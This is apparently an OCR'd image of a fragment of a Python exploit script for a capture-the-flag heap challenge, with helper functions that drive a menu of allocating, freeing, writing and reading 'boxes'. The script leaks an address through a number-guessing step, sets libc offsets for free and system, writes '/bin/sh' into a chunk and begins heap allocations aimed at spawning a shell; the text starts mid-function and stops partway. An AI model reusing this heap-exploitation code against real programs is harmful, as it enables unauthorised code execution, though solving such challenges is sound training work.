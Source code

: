 ```Python
#pre: in ops input, post: next ops input
#return secret number that is the addr of seed
	global sh
	sh.send("5")#gess number
	sh.recvuntil("> ")
	sh.send("1")#arbitrary number
	sh.recvuntil("The number is ")
	fst_rand = int(getPrevNum(sh.recv()))
	print fst_rand
	sh.send("5")#gess number
	sh.recvuntil("> ")
	sh.send(str(get_scd_rand(fst_rand)))
	sh.recvuntil("You get a secret: ")
	secret = int(getPrevNum(sh.recv()))
	return secret

def get_box(which_box, iSize):
#pre: in ops input, post: next ops input
	global sh
	sh.send("1")#get a box
	sh.recvuntil("5) huge\n> ")
	sh.send(str(which_box))
	sh.recvuntil("Input the size you want to get:\n> ")
	sh.send(str(iSize))
	sh.recvuntil("6) exit\n> ")

def free_box(which_box):
#pre: in ops input, post: next ops input
	global sh
	sh.send("2")#destroy a box
	sh.recvuntil("5) huge\n> ")
	sh.send(str(which_box))
	print sh.recvuntil("6) exit\n> ")

def leave_msg(which_box, msg):
	sh.send("3")#leave msg in a box
	sh.recvuntil("5) huge\n> ")
	#print which_box
	sh.send(str(which_box))
	sh.send(msg + '\n')
	sh.recvuntil("6) exit\n> ")

def show_msg(which_box):
	sh.send("4")#show msg in the box
	sh.recvuntil("5) huge\n> ")
	sh.send(str(which_box))
	ret = sh.recvuntil("6) exit\n> ")
	endIdx = ret.find("You have 6 operation") - 1
	return ret[0:endIdx]

seed_to_p_addr = -40
displ_to_free = -0x108
free_off = 0x00000000000844f0
system_off = 0x0000000000045390

six_ops()
seed_addr = get_base_addr()

get_box(1, 0x20)
leave_msg(1, "/bin/sh\x00")

get_box(2, 0x100)
get_box(3, 0x110)
```